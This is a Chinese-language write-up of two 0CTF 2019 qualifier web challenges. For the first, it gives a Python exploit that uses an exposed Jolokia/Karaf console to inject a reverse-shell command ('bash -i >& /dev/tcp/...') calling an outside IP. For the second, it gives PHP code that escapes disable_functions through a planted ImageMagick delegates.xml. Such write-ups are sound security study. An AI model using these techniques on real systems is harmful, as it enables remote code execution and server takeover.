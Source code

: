 ```yaml
---
title: "0ctf 2019 Quals Web writeup"
date: 2019-03-26T16:04:55+08:00
categories: ["CTF"]
tags: ["web", "ctf"]
---
```


本次比赛两个web题都是[RicterZ](https://ricterz.me/)大佬出的，膜一波Orz

## Ghost Pepper

本题首先通过观察401的响应包找到HTTP Basic认证的用户名karaf：

![401.png](/images/posts/0ctf-2019-Quals-Web-writeup/401.png)

然后用密码karaf即可绕过认证。接下来通过目录爆破找到目录`http://karaf:karaf@192.168.2.88:31337/jolokia/`。到这里我们可以发现这是一个裸的jolokia控制台。

jolokia是一个Java系统管理解决方案。其采用轻量级的Json格式传输数据，可以方便地管理系统中的Servlet。所以当应用暴露了jolokia目录的时候，基本上算是直接暴露出来一个webshell。我们可以通过访问`http://karaf:karaf@192.168.2.88:31337/jolokia/list`来查看可用的api，来寻找利用点。在本题中有三种解题方式：

### 解法 1

通过karaf下bundle模块远程安装一个我们自己写的恶意bundle，反弹一个shell到自己的服务器上。参考<https://github.com/p4-team/ctf/tree/master/2019-03-23-0ctf-quals/web_osgi>。但是由于我不熟悉Java编译出来的东西始终装不上Orz，等弄好了把整个项目代码扔github上面去= =

### 解法 2

第二种方法应该算是最省事的方法了，即通过karaf下feature模块安装一个webconsole：

![webconsole](/images/posts/0ctf-2019-Quals-Web-writeup/webconsole.png)

之后我们访问`http://192.168.2.88:31337/system/console/bundles`就可以进入到webconsole的管理界面。在管理界面点Main -> Goto即可进入console。

![goto](/images/posts/0ctf-2019-Quals-Web-writeup/goto.png)

在console中执行`cat /flag`即可得到flag：

![console](/images/posts/0ctf-2019-Quals-Web-writeup/console.png)

### 解法 3

使用karaf中的Instance模块，在安装一个新的instance的时候进行instance的命令行参数注入。我们看karaf源码：<https://github.com/apache/karaf>。在`org/apache/karaf/instance/core/InstancesMBean.java`文件中定义了MBean的接口：

```java
// Operations
void startInstance(String name) throws MBeanException;
void startInstance(String name, String opts) throws MBeanException;
void startInstance(String name, String opts, boolean wait, boolean debug) throws MBeanException;
```

我们找startInstance方法的实现，在文件`org/apache/karaf/instance/command/StartCommand.java`中其调用了Instance的Start方法：

![startCommand](/images/posts/0ctf-2019-Quals-Web-writeup/startCommand.png)

跟进Instance类的start方法，其调用了InstanceService中的startInstance方法：

![instanceImpl](/images/posts/0ctf-2019-Quals-Web-writeup/instanceImpl.png)

继续跟进`org/apache/karaf/instance/core/internal/InstanceServiceImpl.java`，其调用了doStart方法：

![startInstance](/images/posts/0ctf-2019-Quals-Web-writeup/startInstance.png)

继续看doStart方法，其中有明显的命令拼接：

![doStart](/images/posts/0ctf-2019-Quals-Web-writeup/doStart.png)

在此处，我们发现javaOpt是我们可控的参数。在`InstancesMBeanImpl`中我们发现createInstance参数有一个就是javaOpt：

![mbean](/images/posts/0ctf-2019-Quals-Web-writeup/mbean.png)

于是我们给出攻击思路：

1. 创建一个新的Instance，在其javaOpt字段进行参数注入
2. 开启这个新的Instance执行我们的命令
3. 停止Instance
4. 删除Instance

最后我们给出exp：

```python
import requests
from pprint import pprint

url = "http://111.186.63.207:31337/jolokia/"

create_instance = {
    "type": "EXEC",
    "mbean":"org.apache.karaf:name=root,type=instance",
    "operation": "createInstance(java.lang.String,int,int,int,java.lang.String,java.lang.String,java.lang.String,java.lang.String)",
    "arguments": [
        "n0b0dy", # name
        22, # ssh port
        1099, # rmiRegistryPort
        44444, # rmiServerPort
        "/opt/opendaylight-0.9.2/instances/n0b0dy", # location
        "|| bash -i >& /dev/tcp/149.28.194.202/33333 0>&1 #", # javaOpts
        None, # features
        None # featureURLs
    ]
}

start_instance = {
    "type": "EXEC",
    "mbean":"org.apache.karaf:name=root,type=instance",
    "operation": "startInstance(java.lang.String,java.lang.String)",
    "arguments": [
        "n0b0dy", # name
        "", # opts
    ]
}


stop_instance = {
    "type": "EXEC",
    "mbean":"org.apache.karaf:name=root,type=instance",
    "operation": "stopInstance",
    "arguments": [
        "n0b0dy", # name
    ]
}


destory_instance = {
    "type": "EXEC",
    "mbean":"org.apache.karaf:name=root,type=instance",
    "operation": "destroyInstance",
    "arguments": [
        "n0b0dy", # name
    ]
}

headers = {
    "Authorization": "Basic a2FyYWY6a2FyYWY="
}

exp = [create_instance, start_instance, stop_instance, destory_instance]
for e in exp:
    rep = requests.post(url, json=e, headers=headers)
    pprint(rep.json())
```

## Wallbreaker

这个题目提出了一种新的用imagick来绕过`disable_function`的方法。根据[文档](https://imagemagick.org/script/resources.php)描述，`delegate.xml`用于指定转换特定文件用的命令：

> Associate delegate programs with certain image formats. ImageMagick relies on a number of delegate programs to support certain image formats such as ufraw-batch to read raw camera formats or Ghostscript to read Postscript images. Use this configuration file to map an input or output format to an external delegate program.

文档中还给出了一个[示例](https://imagemagick.org/source/delegates.xml)：

```xml
<delegatemap xmlns="">
<delegate xmlns="" decode="bpg" command=""bpgdec" -b 16 -o "%o.png" "%i"; /usr/bin/mv "%o.png" "%o""/>
...
</delegatemap>
```

我们可以看到`delegates.xml`中定义了很多命令执行的函数。那么我们可以自己定义`delegates.xml`文件吗？答案是可以的要不然这道题就没法做了2333

Imagick有一些环境变量比较重要，比如`HOME`变量。根据文档的描述，这个变量是用来寻找config文件的跟路径：

> Set path to search for configuration files in $HOME/.config/ImageMagick if the directory exists.

而Imagick的配置文件涉及到两个目录，即`$HOME/.config/ImageMagick`和`$HOME/.magick`。Imagick会在这两个目录下寻找delegates.xml文件，并进行解析。在delegates.xml中，我们可以对某个特定的文件后缀（此处为`foo`）指定其解析的方式。根据题目描述，我们将这个命令设置为需要执行的`/readflag`：

```xml
<delegatemap><delegate decode="foo" command="/readflag > /tmp//flag"/></delegatemap>
```

思路清晰以后，我们可以来写代码。首先在open_basedir的限制条件中找一个可以写的目录用来放我们的配置文件。题目的环境是tmp下面的一个根据ip生成的文件夹，在我们的环境中我们使用`/tmp`作为示例。同时我们打开error的显示便于调试：

```php
$home = '/tmp/';
ini_set('display_errors', 1);
```

接下来我们将HOME环境变量设置为`tmp`并向`$HOME`下面写入我们的`delegates.xml`文件：

```php
putenv("HOME=$home/");
mkdir("$home/.config/");
mkdir("$home/.config/ImageMagick");
file_put_contents("$home/.config/ImageMagick/delegates.xml",
    "<delegatemap><delegate decode=\"foo\" command=\"/readflag > $home/flag\"/></delegatemap>");
```

在delegate文件中，我们将`/readflag`的执行结果写入到`$HOME/flag`文件中，最后我们将结果读出来：

```php
touch("$home/test.foo");
try {
  $i = new Imagick("$home/test.foo");
  $i->writeImage("$home/test.png");
} catch(Exception $e) {
  var_dump($e);
}
var_dump(file_get_contents("$home/flag"));
```

经过这一波操作我们可以最终得到flag：

![result](/images/posts/0ctf-2019-Quals-Web-writeup/wallbreaker.png)